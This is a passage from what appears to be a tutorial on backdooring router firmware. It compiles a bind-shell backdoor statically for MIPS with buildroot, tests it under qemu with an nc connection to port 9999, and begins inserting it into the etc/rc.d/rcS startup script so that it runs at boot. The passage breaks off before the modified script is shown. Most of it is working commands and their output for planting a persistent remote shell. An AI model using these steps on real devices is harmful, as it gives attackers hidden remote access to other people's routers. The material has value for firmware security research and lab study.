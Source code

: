 ### Compile The Backdoor Under The Correct Architecture

Now that we know what backdoor we would like to use, we must compile
it for the MIPS architecture. We can do this using
[buildroot](https://buildroot.uclibc.org/). After copying the
bindshell into buildroot we statically compile with gcc using:

	./mips-buildroot-linux-uclibc-gcc bindshell.c -static -o bindshell

### Test That The Backdoor Works

We can test that the bindshell actuall works using qemu to emulate:

	sudo chroot . ./qemu-mips-static bindshell

And then nc to make the connection to port 9999:

	oit@ubuntu:~/tools$ nc -nv 127.0.0.1 9999
	Connection to 127.0.0.1 9999 port [tcp/*] succeeded!
	[~] Welcome to @OsandaMalith's Bind Shell

Running commands at this point doesn't actually work because
`bin/busybox` is not actually available.

Ok. It seems like the bindshell should work. Next we need to get it to
start when the firmware boots.

### Start The Backdoor During The Boot Process

After looking through the rootfs we come across the following:


	$ cat etc/rc.d/rcS

	.. snip ..

	#
	# Start Our Router Program
	#

	/usr/bin/httpd &

	.. snip ..


We can see that thr rcS script appears to start the httpd webserver
during the boot process. This seems like a good place to hook up our
bindshell. We will update the startup script with the following:


	$ cat etc/rc.d/rcS

	.. snip ..

	#
	# Start Our Router Program
	#

